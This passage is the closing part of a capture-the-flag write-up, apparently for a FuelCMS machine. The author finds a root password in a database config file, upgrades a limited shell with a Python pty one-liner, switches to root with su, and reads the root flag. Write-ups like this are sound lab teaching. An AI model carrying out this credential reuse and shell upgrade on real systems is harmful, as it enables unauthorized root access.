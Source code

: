 ```php
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => '[REDACTED]',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```
* Obviously, these appear to be the sign-in details of root. Using the password to log in to root gives us root!
 
**Note: Since this isn't a full reverse shell, you have to spawn an interactive shell in order to run su.**

```shell
$ su root
su: must be run from a terminal
$ python -c 'import pty; pty.spawn("/bin/sh")'
ls
ls
$ MY_config.php      constants.php      google.php     profiler.php
MY_fuel.php          custom_fields.php  hooks.php      redirects.php
MY_fuel_layouts.php  database.php       index.html     routes.php
MY_fuel_modules.php  doctypes.php       memcached.php  smileys.php
asset.php            editors.php        migration.php  social.php
autoload.php         environments.php   mimes.php      states.php
config.php           foreign_chars.php  model.php      user_agents.php
$ su root
su root
Password: [REDACTED]

root@ubuntu:/var/www/html/fuel/application/config# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX 
```
* Thanks for reading, I hope you learned something new!